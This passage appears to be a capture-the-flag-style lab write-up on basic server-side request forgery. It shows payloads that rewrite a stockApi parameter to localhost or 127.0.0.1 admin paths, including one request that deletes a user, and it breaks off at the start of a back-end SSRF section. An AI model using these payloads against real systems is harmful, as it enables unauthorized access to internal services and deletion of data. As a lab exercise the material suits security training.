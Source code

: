 ## Basic SSRF against the local server

+ Injection Point
  
![ssrf1](./img/ssrf1.png)

+ Change to 
```http
stockApi=http://localhost/admin
or
stockApi=http://127.0.0.1/admin
```
![ssrf1.1](./img/ssrf1.1.png)


+ Delete user carlos

```
stockApi=http://localhost/admin/delete?username=carlos
```

![ssrf1.2](./img/ssrf1.2.png)
![ssrf1.3](./img/ssrf1.3.png)



## Basic SSRF against another back-end system
+ Injection Point

![ssrf2](./img/ssrf2.png)
+ Detect 